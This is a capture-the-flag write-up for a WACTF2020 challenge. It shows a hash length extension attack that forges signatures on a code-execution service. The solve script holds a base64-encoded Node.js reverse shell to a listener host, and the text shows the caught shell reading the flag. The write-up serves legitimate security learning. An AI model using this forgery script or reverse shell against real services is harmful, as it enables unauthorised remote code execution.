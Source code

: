 # s3cur3 r3pl | WACTF2020

## Problem
Gain remote code execution and read flag from flag.txt.  
Service: http://crypto-4 
  
![UI Screenshot](shot.png)
  
## Solution
References:
- https://pequalsnp-team.github.io/cheatsheet/crypto-101
- https://en.wikipedia.org/wiki/Length_extension_attack
  
The page explains how the code is signed by joining the API key (the secret), together with some code which the user can input. This means of signing is vulnerable to a hash length extension attack in which the input to the hash can be extended to include new data, without needing to know what came before it.

```python
#!/usr/bin/env python3

import requests
from hashpumpy import hashpump
from base64 import b64decode, b64encode

# Example:
# https://ctftime.org/writeup/15069

originalData = 'ZnVuY3Rpb24gaGVsbG8obmFtZSkgewogIHJldHVybiAnSGVsbG8gJyArIG5hbWUgKyAnISc7Cn0KCmhlbGxvKCdXb3JsZCcpOyAvLyBzaG91bGQgcHJpbnQgJ0hlbGxvIFdvcmxkJw=='
originalSig = 'aaa8111b4871b48dc6c0ac4c33ef9e1b'
testData = b64decode('OwpoZWxsbygnSmFjaycpOw==')
rceData = b64decode('OwooZnVuY3Rpb24oKXsKdmFyIG5ldCA9IHJlcXVpcmUoIm5ldCIpLApjcCA9IHJlcXVpcmUoImNoaWxkX3Byb2Nlc3MiKSwKc2ggPSBjcC5zcGF3bigiL2Jpbi9zaCIsIFtdKTsKdmFyIGNsaWVudCA9IG5ldyBuZXQuU29ja2V0KCk7CmNsaWVudC5jb25uZWN0KDEzMzcsICIxMC4wLjM3LjM0IiwgZnVuY3Rpb24oKXsKY2xpZW50LnBpcGUoc2guc3RkaW4pOwpzaC5zdGRvdXQucGlwZShjbGllbnQpOwpzaC5zdGRlcnIucGlwZShjbGllbnQpOwp9KTsKcmV0dXJuIC9hLzsKfSkoKTs=')

def forge(keyLen, addedData=testData):
    newHash, newData = hashpump(originalSig, b64decode(originalData), addedData, keyLen)
    return newHash, b64encode(newData)

def postData(sig, code):
    resp = requests.post('http://crypto-4', json={'sig':sig, 'code':code})
    return resp.text

for i in range(50):
    forgedSig, forgedData = forge(i)
    ret = postData(forgedSig, forgedData)

    if 'invalid' not in ret:
        print(f'\n{ret}\nkeyLen: {i}')
        
        forgedSig, forgedData = forge(i, rceData)
        print(postData(forgedSig, forgedData))
        break
```

With this script I first figure out the length of the secret, and then create some signed code with a node.js reverse shell payload which will connect to my shellbox.

```bash
┌──(kali㉿kali)-[~/Desktop/WACTF/crypto4]
└─$ ./solve.py  
./solve.py:26: DeprecationWarning: PY_SSIZE_T_CLEAN will be required for '#' formats
  newHash, newData = hashpump(originalSig, b64decode(originalData), addedData, keyLen)

{"result":"Hello Jack!"}
keyLen: 37
{"result":{}}
```

Catch the reverse shell and get the flag.

```bash
shellbox:~$ nc -lvp 1337
Listening on [0.0.0.0] (family 0, port 1337)
Connection from 10.0.16.21 59671 received!
ls
flag.txt
index.js
node_modules
package-lock.json
package.json
public
views
cat flag.txt
WACTF{76656ebc7cc6d6267529456ad9179672}
```
